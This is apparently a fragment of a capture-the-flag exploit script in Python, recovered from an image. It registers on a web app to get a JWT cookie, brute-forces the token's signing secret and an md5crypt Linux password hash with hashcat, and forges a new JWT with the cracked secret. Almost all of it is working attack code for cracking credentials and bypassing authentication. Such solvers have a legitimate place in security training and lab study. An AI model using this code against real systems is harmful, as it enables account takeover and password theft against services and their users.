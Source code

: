 ```python
    url = URL + '/register'
    response = requests.post(url, data = data, allow_redirects = False)

    if response.status_code != 302:
        print(f'Unexpected response from {url}', response.status_code, response.text)
        sys.exit(1)

    jwt = response.cookies.get('appdata')
    if jwt is None:
        print(f'No cookie from {url}')
        sys.exit(1)

    return jwt


def crack(mode, hash):
    file = tempfile.NamedTemporaryFile(delete = False)
    file.write(hash.encode())
    file.close()

    cmd = f'hashcat --potfile-disable -m {mode} -a 3 {file.name} -O'

    output = subprocess.check_output(cmd, shell = True, text = True)
    # print(output)

    if hash not in output:
        print(f'Failed to crack hash ({hash}):', output)
        sys.exit(1)

    hashIndex = output.index(hash + ':')

    keyStart = output[hashIndex:]

    colonIndex = keyStart.index(':')
    newlineIndex = keyStart.index('\n')
    secret = keyStart[colonIndex+1:newlineIndex]
    # print('secret:', secret)

    return secret

def crackJWT(givenJWT):
    HASHCAT_JWT_MODE = 16500
    secret = crack(HASHCAT_JWT_MODE, givenJWT)
    return secret

def crackLinuxPassword(linuxPasswordHash):
    # If you didn't know this mode, one way is to try to solve this using "john".
    # It would identify the hash type and print it out: detected hash type "md5crypt"
    # Then run "hashcat --help" and search for md5crypt to find this mode.
    #
    # Another way: https://hashes.com/en/tools/hash_identifier
    HASHCAT_MD5CRYPT_MODE = 500
    secret = crack(HASHCAT_MD5CRYPT_MODE, linuxPasswordHash)
    return secret

def forgeJWT(jwtSecret, payload):
    jwtJson = {"data": payload}

    forgedJWT = jwt.encode(jwtJson, jwtSecret, algorithm='HS256')

    return forgedJWT


```